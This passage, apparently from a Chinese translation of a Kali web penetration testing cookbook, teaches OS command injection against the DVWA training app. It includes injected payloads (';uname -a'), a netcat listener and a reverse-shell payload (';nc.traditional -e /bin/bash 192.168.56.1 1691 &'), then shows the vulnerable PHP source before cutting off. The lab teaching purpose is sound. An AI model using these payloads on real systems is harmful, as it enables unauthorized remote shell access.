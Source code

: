 也可以让服务器下载一些恶意程序，例如提权利用，执行它来获得更高权限。

## 6.2 利用 OS 命令注入

在上一个秘籍中，我们看到 PHP 的`system()`如何用于在服务器中执行 OS 命令。有时开发者会使用类似于它的指令，或者相同的功能来执行一些任务，有时候他们会使用无效的用户输入作为参数来执行命令。

这个秘籍中，我们会利用命令注入漏洞来提取服务器中的重要信息。

### 操作步骤

1.  登录 DVWA 访问`Command Execution`。

2.  我们会看到` Ping for FREE `表单，试试它吧。Ping `192.168.56.1 `（在主机网络中，我们的 Kali Linux 的 IP）。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-2-1.jpg)
    
    这个输出看起来像是直接的 ping 命令的输出。这表明服务器使用 OS 命令来执行 ping。所以它可能存在 OS 命令注入。
    
3.  让我们尝试注入一个非常简单的命令，提交下列代码：

    ```
    192.168.56.1;uname -a.
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-2-2.jpg)
    
    我们可以看到`uname`命令的输出就在 ping 的输出之后。这里存在命令注入漏洞。

4.  如果不带 IP 地址会怎么样呢：`;uname -a:`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-2-3.jpg)
    
5.  现在，我们打算获取服务端的反向 shell。首先我们必须确保服务器拥有所需的任何东西。提交下列代码：`;ls /bin/nc*`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-2-4.jpg)
    
    所以我们拥有多于一种版本的 Netcat，我们打算使用它来生成连接。`nc`的 OpenBSD 版本不支持执行连接命令，所以我们使用传统的版本。
    
6.  下一步是监听 Kali 主机的连接。打开终端并执行下列命令：

    ```
    nc -lp 1691 -v
    ```
    
7.  返回浏览器中，提交这个：`;nc.traditional -e /bin/bash 192.168.56.1 1691 &`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/6-2-5.jpg
    
    我们的终端会对连接做出反应。我们现在可以执行非交互式命令并检查它们的输出。
    
### 工作原理

就像 SQL 注入的例子那样，命令注入漏洞的来源于弱输入校验机制，以及使用用户提供的数据来拼接之后会用做 OS 命令的字符串。如果我们查看刚刚攻击的页面源代码（每个 DVWA 页面的右下角会有个按钮），会看到这些：

```php
<?php
if( isset( $_POST[ 'submit' ] ) ) {

    $target = $_REQUEST[ 'ip' ];
    
    // Determine OS and execute the ping command.    
    if (stristr(php_uname('s'), 'Windows NT')) {
        $cmd = shell_exec( 'ping  ' . $target );        
        echo '<pre>'.$cmd.'</pre>';            
        
    } else {             
        $cmd = shell_exec( 'ping  -c 3 ' . $target );        
```